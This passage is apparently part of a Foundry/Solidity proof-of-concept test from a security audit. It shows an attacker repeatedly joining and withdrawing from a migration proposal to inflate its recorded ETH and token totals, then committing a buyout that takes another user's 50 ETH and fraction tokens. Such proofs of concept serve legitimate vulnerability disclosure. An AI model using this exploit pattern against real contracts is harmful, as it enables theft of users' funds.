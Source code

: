 ```
            nftReceiverPlugins,
            nftReceiverSelectors,
            TOTAL_SUPPLY,
            1 ether
        );

        // STEP 5
        // Bob joins and then withdraws from the proposal in loop, to inflate the ETH of his proposal
        // and total locked tokens (thanks to a bug in the `withdrawContribution` function)
        bob.migrationModule.join{value: 10 ether}(vault, 2, 25);
        bob.migrationModule.withdrawContribution(vault, 2);
        bob.migrationModule.join{value: 10 ether}(vault, 2, 25);
        bob.migrationModule.withdrawContribution(vault, 2);
        bob.migrationModule.join{value: 10 ether}(vault, 2, 25);
        bob.migrationModule.withdrawContribution(vault, 2);
        bob.migrationModule.join{value: 10 ether}(vault, 2, 24);
        bob.migrationModule.withdrawContribution(vault, 2);
        bob.migrationModule.join{value: 10 ether}(vault, 2, 101);


        // Let's do some accounting...
        (,,uint256 totalEth_AliceProposal,,,,,,) = migrationModule.migrationInfo(vault,1);
        (,,uint256 totalEth_BobProposal,uint256 _totalFractions,,,,,) = migrationModule.migrationInfo(vault,2);

        // Alice proposal has 50 ETH.
        assertEq(totalEth_AliceProposal, 50000000000000000000);

        // Bob's proposal has 50 ETH.
        assertEq(totalEth_BobProposal, 50000000000000000000);

        // He only put 10 ETH, but it shows 50 ETH because
        // we inflate it by exploiting the bug.

        // We can keep inflating it indefinitely to get any ETH
        // amount desired (up to the max ETH balance of the smart contract).

        // NOTE that the very REAL ETH Balance of the vault is only the 50 ETH (from Alice) + 10 ETH (from Bob) = 60 ETH.

        // We'll steal those 50 ETH from alice and all of his fractional tokens, to add them to our proposal now.

        // STEP 6
        // Bob calls commit to kickoff the buyout process
        bool started = bob.migrationModule.commit(vault, 2);
        assertTrue(started);

        // Final accounting:
        // Buyout now has 5,100 Fraction tokens from a total supply of 10,000 (that's 51% of total supply,
        // exactly what is required to win a proposal)
        assertEq(getFractionBalance(buyout), 5101);

        // and 50 ETH from Alice's proposal
        assertEq(getETHBalance(buyout), 50 ether);

        // Bob started with 100 ether and at this time it has 90 ether, as we only spent 10 ether
        assertEq(getETHBalance(bob.addr), 90 ether);

        // Bob only sent 101 tokens from his own fraction balance to his evil proposal, the rest were stolen
```